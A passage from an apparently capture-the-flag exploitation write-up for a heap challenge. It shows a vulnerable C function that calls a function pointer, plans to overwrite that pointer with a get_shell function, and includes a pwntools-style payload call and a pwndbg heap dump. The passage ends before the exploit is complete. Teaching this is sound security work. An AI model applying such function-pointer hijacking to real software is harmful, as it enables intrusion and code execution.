 But before we dive into talking about the exploit, let's take a quick look at the following function as well:
```c
void report_name() {
    int choice;

    if (zoo.numOfAnimal <= 0) {
        print("[ERROR] No animal in the zoo.");
        return;
    }

    print("Zone number? (0-9)");
    while (1) {
        printf("> ");
        scanf("%d", &choice);
        if (choice >= 0 && choice < ZOO_SIZE) {
            break;
        }
        printf("??\n");
    }

    if (zoo.animals[choice] == NULL) {
        print("[ERROR] No animal in this zone.");
        return;
    }

    zoo.animals[choice]->speak(zoo.animals[choice]->name);
}
```
this is the function that makes use of the function pointer in the `Animal` Struct to call the `speak` function with the animal's name as the parameter. Imagine if we changes the function pointer of `Animal` Struct i.e. `speakFunc speak;` or `0x22cc12a0 —▸ 0x4012cd (speak) ◂— endbr64`, turn it to `get_shell` function entirely, we can then get the shell when `zoo.animals[choice]->speak(zoo.animals[choice]->name);` executes.    

## Exploit
Let's start talking about how we can do it   

What we need to do is to create a condition that allows us to overwrite the function pointer field, i.e. the first field of `Animal` Struct. In order to do that, we can make use of:
```c
	animal->name = (char*) malloc(size);
	read(0, animal->name, size);
```
as it is the only thing we can use to write something into the chunk. But the thing is that we will be writing to the `name` buffer inside an `animal` struct. i.e. If you just do:
```py
add_animal(b"20", p64(sys_addr1))
```
you may see something like this:
```
pwndbg> tele 0x187f6290
00:0000│  0x187f6290 ◂— 0
01:0008│  0x187f6298 ◂— 0x21 /* '!' */
02:0010│  0x187f62a0 —▸ 0x401205 (speak) ◂— push rbp
03:0018│  0x187f62a8 ◂— 0
04:0020│  0x187f62b0 —▸ 0x187f62c0 —▸ 0x4011b6 (get_shell) ◂— push rbp
05:0028│  0x187f62b8 ◂— 0x21 /* '!' */
06:0030│  0x187f62c0 —▸ 0x4011b6 (get_shell) ◂— push rbp
07:0038│  0x187f62c8 ◂— 0xa /* '\n' */
```
And when `zoo.animals[choice]->speak(zoo.animals[choice]->name);` executes, it is not going to execute `get_shell` which is a `name` but not on the function pointer field.  And the thing is that we can write stuff we want to write ONLY on `name` buffer as that's what the program allows us to do.  
